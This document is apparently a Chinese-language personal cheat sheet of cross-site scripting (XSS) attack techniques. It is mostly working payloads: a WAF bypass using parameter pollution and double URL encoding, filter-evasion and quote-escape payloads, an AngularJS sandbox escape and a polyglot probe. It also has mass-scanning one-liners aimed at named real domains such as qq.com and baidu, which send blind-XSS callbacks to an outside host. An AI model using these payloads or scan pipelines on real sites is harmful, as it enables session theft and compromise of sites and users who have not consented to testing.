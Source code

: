 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



>Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:

```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```



## 执行弹框的方法

```
<Img Src=//X55.is OnLoad=import(src)>
<Img+Src=//X55.is+OnLoad=import(src)>#confirm(document.domain)//
```







### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## one-liner

```
python3 paramspider.py --domain qq.com -s TRUE -e js,css,woff,ttf,svg --output hackerone.txt

cat output/hackerone.txt| deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' |dalfox pipe --silence -b 360cdn.xss.ht | cut -d " " -f2

cat output/baidu.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' | dalfox pipe --silence -b 360cdn.xss.ht

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG --output ./src/{}.txt

cat src.txt| xargs -I {} | &&  cat ./src/*.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' >  src_url.txt && python3 removeDepeat.py && cat remove_src_url.txt | dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt
```



## 收集URL

```
gospider -s "https://passport.haodf.com/" --cookie "" -o output -c 10 -d 1 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico)" 
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`